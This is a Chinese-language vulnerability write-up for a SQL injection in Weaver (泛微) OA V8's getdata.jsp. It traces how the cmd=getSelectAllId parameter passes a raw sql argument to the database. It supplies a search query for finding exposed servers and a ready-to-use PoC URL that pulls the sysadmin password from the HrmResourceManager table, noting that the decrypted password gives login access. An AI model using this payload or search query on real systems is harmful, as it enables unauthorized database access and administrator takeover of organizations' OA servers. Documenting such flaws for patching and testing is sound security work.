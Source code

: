 # 泛微OA getdata.jsp SQL注入漏洞

# 泛微OA V8 getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理

![image-20220209104257902](/images/202202091042978.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![image-20220209104319947](/images/202202091043985.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![image-20220209104335191](/images/202202091043319.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![image-20220209104351654](/images/202202091043694.png)解密后即可登录系统

![image-20220209104408461](/images/202202091044509.png)

